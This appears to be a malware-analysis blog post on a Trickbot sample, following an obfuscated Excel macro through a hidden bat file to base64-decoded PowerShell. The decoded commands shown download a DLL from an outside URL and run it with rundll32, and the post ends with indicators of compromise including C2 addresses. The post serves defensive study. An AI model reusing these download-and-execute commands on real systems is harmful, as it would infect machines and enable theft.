 ```yaml
---
layout: post
title:  "Trickbot Malware Analysis"
date:   2023-11-23 14:26:00 +0530
category: malware
---
```


![Cover](/files/images/trickbot_analysis_images/Cover2_trickbot.png)

# **Overview**
Trickbot malware first made its appearance in 2016 as an advanced banking trojan but has over the years advanced its capabilities to provide multiple functionalities and is also available as malware-as-a-service. Cyber criminal groups behind trickbot mostly use phishing emails which may contain a file attachment or a link to an external website. Trickbot can be used to drop other malwares, such as conti ransomware.  


# **Contents**
- Trickbot trojan downloader analysis
- Trickbot payload analysis


# **Trickbot Downloader Analysis**

| sha256        | 5f87369f99f8c94f96d54a866723feb06dd721c478213f2dae2e9f4a1a14e3c |
| File Type     | .xlsm |

The detection rate for the loader file was still low as of the time this report was written. Only half of the vendors on VirusTotal are able to detect the file.

![virusTotalCheck](/files/images/trickbot_analysis_images/virus_total_check.png)

The **xlsm** file contains 4 macros streams
- **rthdsfigo7shoi4sudf**
- **rthofihgsixdcugf6fjhsdgf**
- **rtydsftgus6detriausdg**
- **xcgfhaiw7eygaisdhof**

![macroStreams](/files/images/trickbot_analysis_images/checking_embedded_macros.png)


The macros inside the xlsm file is obfuscated and contains jibrish variable names. But at **line 45** there is a **run** method being used to execute code. At **lines 51, 53 and 55** cell numbers are used corresponding to the cell numbers in the excel sheet. 

![macroCode](/files/images/trickbot_analysis_images/dump_file3_analysis.png)

The excel sheet at first glance doesn't seem to contain anything but after changing the background color the commands are visible inside the cells.

![emptyExcelSheet](/files/images/trickbot_analysis_images/decieving_empty_cells.png)

At **lines 52 and 54** the file name and command are being allocated to variable and then the commands at **cells (71,1) and (72,1)** get concatenated at **line 56**.

![visibleCodeInCells](/files/images/trickbot_analysis_images/empty_cells_with_commands.png)

At **line 57** the bat file is opened/created and the file number and the contents of the variable **ethjosdeghoaiuesgoaidheogfiasoeigfas8ude9** are passed to method **bhfwiuegiweoidhf**. The method **bhfwiuegiweoidhf** writes the contents of the variable **ethjosdeghoaiuesgoaidheogfiasoeigfas8ude9** (the obfuscated commands to be executed) to the bat file. This handle is assigned to the variable **sdfhaiygfoizjxbkojfdf’** and returned back to the calling funcition at line 44.

![code](/files/images/trickbot_analysis_images/cells_71_72_concatenated.png)

**Line 45** refers to **cells (108,10) and (102,14)** respectively which contain the following data.

![cell_108_102](/files/images/trickbot_analysis_images/cells_108_102.png)

Substituting the values of the cells mentioned above at line 45 will give us the following command.

`RDS.DataSpace.CreateObject(Wscript.Shell).Run rthofihgsixdcugf6fjhsdgf.TextBox1.Text &
hrkwdjksdjbk, 0`

The malware is using Microsoft ActiveX data object **RDS**. This allows to access and manipulate data on the machine. **RDS.DataSpace.CreateObject** object basically allows to create objects. Since Wscript.Shell is not predefined object inside VBA, a Wscript.Shell object is created. Here the variable **hrkwdjksdjbk’** refers to the file **\programdata\uegdsj.bat** and **0** parameter executes the bat file and hides the windows.

The code inside the bat file is also obfuscated to prevent analysis.

![batFileContents](/files/images/trickbot_analysis_images/bat_file_contents.png)

**Line 20** contains the **start** command. The **SET** command is being used to assign meaningful values to the variables which are then being used later in the **start** command. **Line 15 and 19** contain base64 encoded strings.

The decrypted strings contain code to be executed using powershell as shown below.

![decryptedStrings](/files/images/trickbot_analysis_images/decrypted_strings.png)

**string1**
```
$hgaisuekhd="c:\programdata\kgheowd.dll";
Invoke-WebRequest -Uri "https://rredgh.org/reply.php" -OutFile $hgaisuekhd;
$pt="c:\windows\system32\rundll32.exe";
$p=$hgaisuekhd+",SieletW
```

**string2**
```
;if(Test-Path $hgaisuekhd){if((Get-Item $hgaisuekhd).Length -ge 30000){Start-Process $pt-ArgumentList$p}}
```

The final command executed is
```
start/B powershell -enc string1 string2
```

The command 'start/B' starts powershell wihtout creating a windows and then executes the base64 encoded strings using the **-enc** option, which is short for **EncodedCommand** that is used to run base53 encoded commands. 

String1 uses the **Invoke-WebRequest** command to the payload from the link  **https://rredgh.org/reply.php**. String2 then creates a **rundll32** process using the parameters **c:\programdata\kgheowd.dll, SieletW**, which basically executes the exported function SieletW from the malicious dwonloaded Trickbot payload


# **Trickbot Malware Analysis**

| sha256        | 3b6ecc403a04c8df0c501d2cd369c01635620aa5eb2da01698d0d319dd1b781 |
| File Type     | .dll |

The payload as can be seen below contains the exported function **SieletW** function.

![exportedFunctionCffExplorer](/files/images/trickbot_analysis_images/SieletW_function_cffexplorer.png)

Dissassembly of the exported function function **SieletW** shows the following APIs being used:
- FindResourceA
- LoadResourceA
- VirtualAlloc
- Sleep
- CreateThread

![disassembly1](/files/images/trickbot_analysis_images/cutter_disassembly1.png)


![disassembly2](/files/images/trickbot_analysis_images/cutter_disassembly2.png)


The malware uses the windows build number to retrieve specific files.

![buildNumberUsed](/files/images/trickbot_analysis_images/build_number_usage.png)

The memory strings also contain ipaddress for C2 which the malware tries to connect to.

![processHackerIPs](/files/images/trickbot_analysis_images/process_hacker_ipaddresses.png)

![wireShark](/files/images/trickbot_analysis_images/wireshark_monitoring.png)

# **Indicators Of Compromise**
- 5f87369f99f8c94f96d54a866723feb06dd721c478213f2dae2e9f4a1a14e3c
- 3b6ecc403a04c8df0c501d2cd369c01635620aa5eb2da01698d0d319dd1b781
- c:\programdata\uegdsj.bat
- c:\programdata\kgheowd.dll
- https://rredgh.org/reply.php
- 181.129.85.98
- 61.69.102.170:443
- 219.196.101.204:40965
- 114.185.91.77:58258
- 228.100.94.21:15105
- 47.80.154.14:51982
- 181.129.85.98:443
- 189.51.118.78:443
- 49.176.188.184:443
- 213.32.252.221:443
- 186.121.214.106:443
- 89.13.62.95:13020
- 248.85.167.126:62436
- 59.147.129.141:4865
- 105.198.215.124:4101
- 90.254.224.52:7937
- 189.112.119.205:443
- 15.107.104.39:732
- 115.195.205.216:3845
- 114.76.201.233:33792